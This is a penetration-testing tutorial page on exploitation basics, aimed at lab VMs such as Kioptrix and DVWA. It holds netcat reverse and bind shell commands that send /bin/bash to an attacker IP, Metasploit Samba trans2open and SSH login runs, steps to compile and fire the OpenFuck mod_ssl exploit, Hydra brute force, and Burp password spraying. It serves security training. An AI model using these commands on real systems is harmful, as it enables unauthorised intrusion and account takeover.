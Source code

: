 # Exploitation Basics

## Reverse shell vs Bind shell

➡️ [netcat](https://netcat.sourceforge.net/)

**Reverse shell** - the victim/target connects back to the attacker

- Attack machine - **listening** on a port
- Target machine - connect to the attacker machine listening port

![Netcat Reverse Shell - hackingtutorials.org](.gitbook/assets/Netcat-reverse-shell.jpg)

```bash
# Attacker
nc -nvlp 4444

# Target
nc 192.168.31.131 4444 -e /bin/bash
```

![Reverse shell](.gitbook/assets/2024-07-11_20-40-27_596.png)

**Bind shell** - the attacker opens a port on the target (via exploitation) and connects to it

- Attack machine - exploits target and opens port listening on target and connects to it
- Target machine - listens for the attacker connection

![Netcat Bind Shell - hackingtutorials.org](.gitbook/assets/Netcat-bind-shell.jpg)

- Specially used on external assessment

```bash
# Target
nc -nvlp 4444 -e /bin/bash

# Attacker
nc 192.168.31.131 4444
```

![Bind shell](.gitbook/assets/2024-07-11_20-41-43_597.png)

---

## Staged vs Non-Staged payloads

**Non-Staged payload** - sends exploit shellcode all at once, larger in size and won't always work

- Metasploit e.g. `payload/windows/meterpreter_reverse_tcp`



**Staged payload** - sends payload in stages, less stable

- Metasploit e.g. `payload/windows/meterpreter/reverse_tcp`

---

## Metasploit (SMB attack)

```bash
searchsploit samba 2.2
```

![searchsploit samba 2.2](.gitbook/assets/2024-07-13_09-03-53_601.png)

```bash
# Run Metasploit
msfconsole

search trans2open
use exploit/linux/samba/trans2open
options

set RHOSTS 192.168.31.130
show targets

run
```

- This does not work, since it is using the `linux/x86/meterpreter/reverse_tcp` staged payload.
- Try with another payload

```bash
set payload linux/x86/shell_reverse_tcp
run
```

![root on Kioptrix VM](.gitbook/assets/2024-07-13_09-10-10_602.png)

- Gained reverse shell via Metasploit

---

## Manual exploitation

Use [OpenLuck](https://github.com/heltonWernik/OpenLuck) to exploit [CVE-2002-0082](https://nvd.nist.gov/vuln/detail/CVE-2002-0082) - [Apache mod_ssl < 2.8.7 OpenSSL - Remote Buffer Overflow](https://nvd.nist.gov/vuln/detail/CVE-2002-0082)

- Follow usage instruction to compile the exploit and run it against the target machine

```bash
git clone https://github.com/heltonWernik/OpenFuck.git
sudo apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto

./OpenFuck

# check an offset for Apache 1.3.20 
# ./OpenFuck target box [port] [-c N]
```

```bash
./OpenFuck 0x6b 192.168.31.130 -c 40
```

![](.gitbook/assets/2024-07-13_09-24-35_603.png)

---

## Brute force attacks

- Brute-force attack `SSH` with weak/default credentials

➡️ [hydra](https://github.com/vanhauser-thc/thc-hydra)

```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.31.130 -t 4 -V
```

- Use the same with Metasploit

```bash
msfconsole

search ssh_login
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.31.130
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
set THREADS 10
set VERBOSE true
run
```

---

## Credential stuffing and Password spraying

[**Credential stuffing**](https://owasp.org/www-community/attacks/Credential_stuffing) - injecting breached account credentials (leaks, etc) in hopes of account takeover

[**Password spraying**](https://owasp.org/www-community/attacks/Password_Spraying_Attack) - brute forcing logins based on a list of usernames with default passwords

```bash
ls -lah /usr/share/seclists/Passwords/Leaked-Databases/
```

- Setup FoxyProxy in the browser and start BurpSuite.
- Use local vulnerable webapp like [dvwa](https://nvd.nist.gov/vuln/detail/CVE-2002-0082)

```bash
sudo apt install dvwa

dvwa-start
```

- Open the login page - [http://127.0.0.1:42001/vulnerabilities/brute/](http://127.0.0.1:42001/vulnerabilities/brute/)

**BurpSuite**

- Turn intercept ON and send the login request to intruder
- Highlight the username and password values, and add them to the payload positions
- Attack type - `Pitchfork`

![](.gitbook/assets/2024-07-13_09-53-02_604.png)

- **Payloads**
  - for each payload set, paste the usernames list and password
  - Start the attack
    - check the response for Status change and Length

![](.gitbook/assets/2024-07-13_10-10-23_605.png)

![](.gitbook/assets/2024-07-13_10-10-38_606.png)

![](.gitbook/assets/2024-07-13_10-20-20_607.png)

---

